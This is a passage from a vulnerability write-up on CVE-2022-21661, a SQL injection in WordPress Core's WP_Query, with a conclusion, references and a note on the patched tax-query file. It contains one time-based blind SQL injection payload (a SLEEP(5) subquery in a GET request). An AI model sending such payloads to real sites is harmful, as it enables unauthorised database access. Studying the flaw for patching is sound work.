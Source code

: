 ```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](detect.png "Response shows delay caused by payload execution")

## Conclusion

The **CVE-2022-21661** vulnerability in **WordPress Core**, prior to version **5.8.3** (affecting versions back to **3.7.37**), stems from improper **sanitization** in `WP_Query`, leading to a potential SQL Injection vulnerability.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

## Notes

[^tax_query]: Since the patch is located in **src/wp-includes/class-wp-tax-query.php**, this file defines the `WP_Tax_Query` class, which handles the `tax_query` parameter in `WP_Query`. Any modification to this file directly affects how `tax_query` arguments are **parsed and validated**.

